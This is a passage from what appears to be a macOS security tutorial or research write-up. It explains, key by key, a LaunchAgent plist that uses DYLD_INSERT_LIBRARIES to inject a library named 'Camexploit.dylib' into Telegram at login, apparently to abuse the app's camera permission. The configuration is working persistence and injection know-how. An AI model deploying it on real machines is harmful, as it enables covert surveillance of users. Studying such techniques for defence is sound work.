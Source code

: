 ```
        <string>/tmp/telegram.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/telegram.log</string>
</dict>
</plist>
```

&nbsp;

The explanation for the essential keys is as we explained before in the previous example, But we gonna explain the simple

differences:

```
<key>RunAtLoad</key>
<true/>
```

&nbsp;

Specifies that the program associated with this agent should be executed as soon as the agent is loaded.

```
<key>EnvironmentVariables</key>
<dict>
    <key>DYLD_INSERT_LIBRARIES</key>
    <string>/Users/labatrixteam/telegram/Camexploit.dylib</string>
</dict>
```

&nbsp;

This section sets an environment variable `DYLD_INSERT_LIBRARIES` for the agent which specific environment variable for

dynamic libraries to be loaded before any others which instructs the system to load the

`/Users/labatrixteam/telegram/Camexploit.dylib` library when launching `Telegram`.

```
<key>ProgramArguments</key>
<array>
    <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
</array>
```

&nbsp;

it's set to run the main executable for the Telegram application.

```
<key>StandardOutPath</key>
<string>/tmp/telegram.log</string>
<key>StandardErrorPath</key>
<string>/tmp/telegram.log</string>
```
